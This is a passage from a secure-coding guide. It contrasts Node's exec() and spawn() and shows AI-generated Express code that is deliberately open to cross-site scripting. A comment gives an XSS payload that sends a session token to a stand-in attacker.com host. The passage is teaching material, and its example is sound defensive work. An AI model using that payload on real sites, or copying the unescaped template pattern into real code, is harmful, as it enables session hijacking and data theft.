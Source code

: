 ### Key Security Principles

**exec() vs spawn():**

| Feature | exec() | spawn() |
|---------|--------|---------|
| Shell | Always uses shell | No shell by default |
| Security | ❌ Dangerous | ✅ Safe |
| Arguments | String (injectable) | Array (not injectable) |
| Use case | Never with user input | Preferred for all cases |

## 1.1.3 Cross-Site Scripting (XSS) Vulnerabilities

### The Problem

According to research from KDnuggets:

> "AI assistants often miss proper output encoding, creating XSS vulnerabilities that can lead to session hijacking and data theft."

The problem is particularly acute in template generation and dynamic HTML creation.

### AI-Generated Vulnerable Code

```javascript
// Prompt: "Create a comment display system"
app.get('/comments/:postId', async (req, res) => {
    const comments = await getComments(req.params.postId);

    let html = `
        <div class="comments">
            <h2>Comments</h2>
    `;

    comments.forEach(comment => {
        // ❌ VULNERABLE: Direct interpolation of user content
        html += `
            <div class="comment">
                <strong>${comment.author}</strong>
                <p>${comment.content}</p>
                <small>${comment.timestamp}</small>
            </div>
        `;
    });

    html += '</div>';
    res.send(html);
});

// Attack vector:
// comment.content = "<script>fetch('/api/session').then(r=>r.text()).then(t=>fetch('https://attacker.com?token='+t))</script>"
```
